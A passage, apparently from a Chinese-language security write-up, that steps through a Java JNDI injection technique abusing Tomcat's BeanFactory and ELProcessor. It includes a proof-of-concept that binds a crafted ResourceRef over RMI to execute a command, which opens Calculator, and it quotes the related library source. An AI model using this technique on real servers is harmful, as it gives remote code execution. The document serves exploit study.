 ```java
      if (cause instanceof ThreadDeath) {
        throw (ThreadDeath) cause;
      }
      if (cause instanceof VirtualMachineError) {
        throw (VirtualMachineError) cause;
      }
      NamingException ne = new NamingException(ite.getMessage());
      ne.setRootCause(ite);
      throw ne;
    }

  } else {
    return null;
  }

}
```

这次的流程相对复杂，我们结合POC正向调试一下：

```java
InitialContext initialContext = new InitialContext();
Registry registry = LocateRegistry.createRegistry(1097);
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
ref.add(new StringRefAddr("forceString", "x=eval"));
ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/usr/bin/open','/System/Applications/Calculator.app']).start()\")"));
initialContext.bind("rmi://localhost:1097/Object",ref);
```

首先我们构造了ResourceRef对象（ResourceRef是Reference的子类）

```java
public ResourceRef(String resourceClass, String description,
                   String scope, String auth, boolean singleton,
                   String factory, String factoryLocation) {
  super(resourceClass, factory, factoryLocation);
  StringRefAddr refAddr = null;
  if (description != null) {
    refAddr = new StringRefAddr(DESCRIPTION, description);
    add(refAddr);
  }
  if (scope != null) {
    refAddr = new StringRefAddr(SCOPE, scope);
    add(refAddr);
  }
  if (auth != null) {
    refAddr = new StringRefAddr(AUTH, auth);
    add(refAddr);
  }
  // singleton is a boolean so slightly different handling
  refAddr = new StringRefAddr(SINGLETON, Boolean.toString(singleton));
  add(refAddr);
}
```
